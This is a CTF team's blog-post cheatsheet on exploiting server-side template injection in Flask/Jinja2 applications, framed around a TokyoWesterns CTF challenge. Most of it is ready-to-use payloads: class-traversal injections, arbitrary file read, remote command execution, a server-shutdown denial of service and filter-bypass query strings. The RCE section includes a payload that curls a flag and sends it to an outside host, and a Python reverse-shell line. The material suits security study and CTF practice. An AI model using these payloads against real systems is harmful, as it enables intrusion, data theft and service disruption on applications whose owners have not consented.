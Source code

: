 ```yaml
---
layout: post
title: "Cheatsheet - Flask & Jinja2 SSTI"
category: cheatsheet
author: phosphore
---
```


## Flask & Jinja2 SSTI

### Introduction
While SSTI in Flask are nothing new, we recently stumbled upon several articles covering the subject in more or less detail because of a challenge in the recent TokyoWesterns CTF. This cheatsheet will introduce the basics of SSTI, along with some evasion techniques we gathered along the way from talks, blog posts, hackerone reports and direct experience.

### RTFM
As everything in this field, explore the docs of [Jinja](http://jinja.pocoo.org/docs/2.10/), [Flask](http://flask.pocoo.org/docs/1.0/api/) & Python and learn them by heart. Assuming this, I'm not going to explore in detail how does Flask/Jinja work, neither python internals.

### Reconnaissance
You can try to probe `{{7*'7'}}` to see if the target is vulnerable. It would result in 49 in Twig, 7777777 in Jinja2, and neither if no template language is in use. This step is sometimes as trivial as submitting invalid syntax, as template engines may identify themselves in the resulting error messages. Note that there are other methods to identify more template engines. [Tplmap](https://github.com/epinna/tplmap/) or its [Burp Suite Plugin](https://github.com/epinna/tplmap/blob/master/burp_extension/README.md) will do the trick. This guide will specifically focus on Jinja2.

### Basics
In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more.
Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing *every class loaded* in the current python environment (!). 

The usual exploitation starts with the following: from a simple empty string `""` you will create a new-type object, type `str`. From there you can crawl up to the root object class using `__mro__`, then crawl back down to every new-style object in the Python environment using `__subclasses__`.

![__mro__ and __subclass__ example]({{site.url}}/assets/mro_subclass.png){: .center-image .half-image }

### Sinks
If you happen to have the source code of the application, look for the `flask.render_template_string(source, **context)` function. It is a common sink for SSTI in Jinja ([docs](http://flask.pocoo.org/docs/1.0/api/#template-rendering)).

### Context and Global Variables
There are several sources from which objects end up in the template context. Remember that there may be sensitive vars explicitly added by the developer, making the SSTI easier. You can use [this list](https://raw.githubusercontent.com/albinowax/SecLists/9309803f3f7d5c1e0b2f26721c1ea7ef36eeb1c8/Discovery/Web_Content/burp-parameter-names) by @albinowax to fuzz common variable names with Burp or Zap.
The following global variables are available within Jinja2 templates by default:
- `config`, the current configuration object
- `request`, the current request object
- `session`, the current session object
- `g`, the request-bound object for global variables. This is usually used by the developer to store resources during a request.

If you want to explore in major details their globals, here are the links to the API docs: [Flask](http://flask.pocoo.org/docs/1.0/templating/#standard-context) and [Jinja](http://jinja.pocoo.org/docs/dev/templates/#builtin-globals).

#### Introspection
You may conduct introspection with the `locals` object using `dir` and `help` to see everything that is available to the template context. You can also use introspection to reach every other application variable.  This [script]({{site.bloburl}}/assets/search.py) written by the [DoubleSigma](https://ctftime.org/writeup/10851) team will traverse over child attributes of request recursively. 
For example, if you need to reach the blacklisted `config` var you may access it anyway via:
```
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```

### DoS
The `request.environ` object is a dictionary of objects related to the server environment. One such item in the dictionary is a method named `shutdown_server` assigned to the key `werkzeug.server.shutdown`. Injecting `''` should be enough to shut down the server.

### Extract classes from the application
Get all classes:
```
{{ [].class.base.subclasses() }}
```
```
{{''.class.mro()[1].subclasses()}}
```

### Arbitrary file read
In our context we can't use `''.__class__` as it is outside of the sandbox. So we need an object which has a class inherited from object. We can then leverage the `<type 'file'>` class to read arbitrary file. While `open` is the built-in function for creating file objects, the file class is also capable of instantiating file objects, and if we can instantiate a file object then we can use methods like `read` to extract the contents.
This injection will do the trick:
```
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40](\"/tmp/flag\").read() }}
```

Mind that index numbers may vary (i.e. [4],[40]) according to the environment.

### Remote code execution
##### First method
By using the `subprocess` class you may issue arbitrary commands. This may be version-dependent:
```
{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[229]([\"touch /tmp/test\"], shell=True) }}
```
##### Second Method
Luckily, the config object comes with a function `from_pyfile()` which reads, compiles and then executes a python file. We now write arbitrary payloads by passing `request.headers['X-Payload']` to the `write` function and sending the `X-Payload` header:
```
GET /{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/pwn.py','w').write(request.headers['X-Payload'])}}-{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/pwn.py').read()}}-{{config.from_pyfile('/tmp/pwn.py')}} HTTP/1.1
Host: chal.ctf.net
[...]
X-Payload: import os;a=os.system("curl http://chal:8080/flag > /tmp/pwn.log");os.system("curl http://pequalsnp-team.github.io:8081/{}".format(open("/tmp/pwn.log").read().encode("hex")))
```
You could alternatively use the reverse shell payload from the [pentest monkey's cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
```
X-Payload: import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8099));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Filters bypass
Generally, if there is a blacklist you can use `request.args.param` to retrieve the value of a new param passed with the querystring. Likewise, you may trim parts of the URL using `request.url[n:]` (e.g.  `{{request[request.url[-6:]]}}&a=config` ).
I'll report some examples below:
##### Bypass the filtering on `__`:
```
http://localhost:5000/?exploit={{request[request.args.param]}}&param=__class__
```
#####  Bypass the filtering on `.` or `[]`:
Using [Jinja2 filters](http://jinja.pocoo.org/docs/2.10/templates/#list-of-builtin-filters) like `|attr()`:
```
http://localhost:5000/?exploit={{request|attr(request.args.param)}}&param=__class__
```
Remember that you can always use the `__getitem__` to achieve the same, getting an item by key or index.

##### Generic blacklist evasion
- Using the `|join` filter will concatenate a list of strings. Also, multiplication of a string with a number 'n' duplicates it 'n' times. You may use both tricks to get bypass.
- You can also use the `.getlist()` function to simplify the building of the injection. The function returns a list of all parameters with a given name. In our case we define the name using the l parameter and the content of the list with several a parameters.
```
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```
- There is another method to concatenate strings and with the `|format` filter. With the same query-string parameters `&a=_` we can form a format string that will result in `__class__`: `%s%sclass%s%s`. The `%s` identifiers will be replaced with the passed string:
```
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```
- You may also use request.cookies, request.headers, request.environ, request.values to store blacklisted injection values.
- For string concatenation, have a look-see at the `~` operator. `{{ "Hello " ~ name ~ "!" }}` would return (assuming _name_ is set to `'John'`): `Hello John!`.

### Tools
- Tplmap is a tool by [@epinna](https://github.com/epinna), which assists the exploitation of Code Injection and Server-Side Template Injection vulnerabilities with a number of sandbox escape techniques to get access to the underlying operating system. It can exploit several code context and blind injection scenarios. It also supports `eval()`-like code injections in Python, Ruby, PHP, Java and generic unsandboxed template engines. [Github](https://github.com/epinna/tplmap)

- search.py is a script written by [DoubleSigma](https://ctftime.org/writeup/10851). It traverse over child attributes of request recursively. [Link]({{site.bloburl}}/assets/search.py).

### Useful links
- Shrine challenge, TokyoWesterns CTF 2018 [Link](https://ctftime.org/writeup/10851)
- Exploring SSTI in Flask/Jinja2 [Part 1](https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html) | [Part 2](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html)
- Server-Side Template Injection: RCE for the modern webapp, J. Kettle [PDF Link](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
- Jinja2 template injection filter bypasses, S. Neef [Link](https://0day.work/jinja2-template-injection-filter-bypasses/)
